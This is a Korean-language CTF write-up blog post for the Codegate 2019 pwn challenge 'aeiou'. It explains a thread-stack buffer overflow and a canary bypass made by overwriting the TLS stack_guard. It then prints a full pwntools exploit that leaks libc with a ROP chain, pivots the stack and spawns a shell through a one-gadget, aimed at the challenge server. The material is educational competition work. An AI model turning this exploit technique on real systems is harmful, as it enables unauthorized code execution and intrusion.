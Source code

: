 ```yaml
---
layout: post
title: ! "[Codegate 2019] aeiou Write-up"
comments: true
excerpt_separator: <!--more-->
tags:
  - MyriaBreak
  - Codegate2019
  - Write-up
  - CTF
  - Pwn
---
```

### Description

> nc 110.10.147.109 17777

> [aeiou](../images/myria/aeiou-writeup/onewrite)


<!--more-->
주어진 바이너리를 실행하면 아래와 같은 메뉴를 확인할 수 있다.

```bash
Raising a Baby
-------------------------------------
[1] Play with Cards
[2] Clearing the Cards
[3] Teaching numbers
[4] Sleeping the Baby
[5] Dancing with Baby!
[6] Give the child blocks!
[7] Sleep me
--------------------------------------
>>
```

 하지만 어떤 메뉴를 선택하든 프로그램은 그 메뉴를 한번 실행하고 종료되기 때문에, 단 한 번에 공격이 이루어져야 한다.
 바이너리를 분석해보면 `pthread_create함수`로 새로운 스레드를 생성하여 `start_routine` 함수를 실행하는 부분이 있다. 이 `start_rountine`(0x4013AA)함수의 C 의사코드는 아래와 같다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_02.PNG)

 버퍼는 0x1000만큼 할당되어있지만 입력은 0x10000만큼 입력할 수 있습니다. 이는 BOF가 있음을 알려줍니다.

 ```bash
 [*] '/home/myria/CTF/CODEGATE/aeiou/aeiou'
     Arch:     amd64-64-little
     RELRO:    Full RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      No PIE (0x400000)
 ```
 하지만 카나리가 있기 때문에 BOF를 통해 바로 return address를 덮어씌울 방법이 없다.
 이를 우회하기위해 pthread_create함수가 이용된다. 스레드가 pthread_create함수에 의해 생성될 경우, 스레드의 스택에 `Thread Local Storage(TLS)`를 사용하여 변수를 저장한다. 즉, 스레드의 스택에 `stack_guard`, 즉 카나리값이 존재하기 때문에 이를 덮어씌우면 BOF를 사용하여 RIP를 컨트롤 할 수 있다.

 이제 `ROP기법`을 이용하여 라이브러리 주소를 유출(leak)하고 `원샷가젯 (execve("/bin/sh", rsp+0x30, environ))`을 실행하면 된다.

![]({{ site.baseurl }}/images/myria/aeiou-writeup/aeiou_03.PNG)

### Full exploit code

```python
from pwn import *

conn = remote("110.10.147.109", 17777)
#conn = process("./aeiou")


def Teaching(num, data):
	conn.recvuntil(">>")
	conn.sendline("3")
	conn.recvuntil("Let me know the number!\n")
	conn.sendline(str(num))
	conn.send(data)

pop_rdi = 0x4026f3
pop_rsi_r15 = 0x4026f1
bss_addr = 0x604110

# leak atol (libc_address)
payload  = p64(pop_rdi) # pop rdi; ret;
payload += p64(0x603FC0) # atol@GOT
payload += p64(0x400B58) # jmp puts@PLT

# read(0, 0x602030, SIZE) %% rdi=0, rsi=0x602030, rdx = big value
payload += p64(pop_rdi) # pop rdi; ret;
payload += p64(0)		 # stdin
payload += p64(pop_rsi_r15) # pop rsi; pop r15; ret;
payload += p64(bss_addr)
payload += p64(0)		# r15 <= garbage
payload += p64(0x400B88) # jmp read@PLT

# rsp -> bss
payload += p64(0x4026ed) # pop rsp; pop r13; pop r14; pop r15; ret
payload += p64(bss_addr)


Data  = "A"*(0x1010-8)
Data += p64(0xdeadbeefcafebabe) # fake canary
Data += "B"*8 	# sfp
Data += payload # rop chain
Data += "C" * (2000-len(payload)) # rop chain
Data += p64(0xdeadbeefcafebabe) # fake canary

Teaching(0x1010 + 2008 + 8, Data)


# leak
conn.recvuntil("Thank You :)\n")
libc_base = u64(conn.recv(6).ljust(8, "\x00")) - 0x36ea0
log.info("libc_base: " + hex(libc_base))

"""
0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
	[rsp+0x30] == NULL
"""

one_gadget = libc_base + 0x4526a
log.info("oneshot : " + hex(one_gadget))

payload  = p64(0) * 3 # pop r13; pop r14; pop r15; ret
payload += p64(one_gadget)
payload += '\x00' * 0x40  ## [rsp+0x30] == NULL

conn.sendline(payload)
conn.interactive()
```
